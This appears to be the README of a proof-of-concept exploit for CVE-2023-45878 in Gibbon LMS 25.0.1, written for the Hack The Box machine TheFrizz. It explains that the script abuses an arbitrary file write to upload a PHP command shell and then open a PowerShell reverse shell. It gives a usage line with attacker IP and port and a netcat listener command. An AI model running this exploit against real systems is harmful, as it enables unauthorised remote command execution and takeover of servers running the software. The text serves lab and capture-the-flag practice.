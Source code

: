 # CVE-2023-45878

Wrote this script based on the work of https://herolab.usd.de/security-advisories/usd-2023-0025/ . The exploit works by using an Arbitrary File Write exploit in Gibbon LMS 25.0.1 . This PoC will use upload a simple php cmd script, and then use that to load a powershell revshell.

```Example
python3 CVE-2023-45878.py -u http://frizzdc.frizz.htb/Gibbon-LMS -l 10.10.16.2 -p 8888 -f asdf
```

Flags:
```
-u, URL where Gibbon LMS is stalled.
-l, your IP
-p, your open port
-f, filename. Important if you need to manually test. Default is "asdf".
```

Have a listener ready for the incoming shell.

```
nc -lvnp 8888
```

This was used for TheFrizz on HTB, submitted by 0xPizzaCat.
